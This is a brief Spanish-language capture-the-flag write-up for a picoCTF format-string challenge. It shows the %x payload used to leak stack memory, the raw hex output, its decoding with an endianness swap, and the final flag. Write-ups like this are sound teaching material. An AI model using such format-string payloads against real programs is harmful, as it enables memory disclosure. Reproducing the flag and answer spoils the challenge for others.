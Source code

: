 ## Descripcion
Story telling class 1/2
I'm just copying and pasting with this [program](https://artifacts.picoctf.net/c/93/vuln). What can go wrong? You can view source [here](https://artifacts.picoctf.net/c/93/vuln.c). And connect with it using:`nc saturn.picoctf.net 51983`

## Pistas
Format Strings

## Solucion
Analizar el código fuente del problema
En el código se puede observar que el formato con el que se lee la entrada se puede explotar
Se ingresan %x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
Al ingresar suficiente %x se obtiene una salida que puede contener una bandera

ffb117d0ffb117f08049346782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578252578256f6369707b4654436b34334c5f676e3167346c466666305f3474535f355f6b63643631657d313235fbad200061e99000f7fa8990804c00080494100804c000ffb118b880494182ffb11964ffb119700ffb118d000f7d9eed5

Se convierte de hex a ascii y se observa que un fragmento tiene un formato parecido a la bandera

6f6369707b4654436b34334c5f676e3167346c466666305f3474535f355f6b63643631657d
ocip{FTCk43L_gn1g4lFff0_4tS_5_kcd61e}

Se aplica swap endianness para descifrar la bandera

## Bandera
picoCTF{L34k1ng_Fl4g_0ff_St4ck_5e16d521}

## Notas



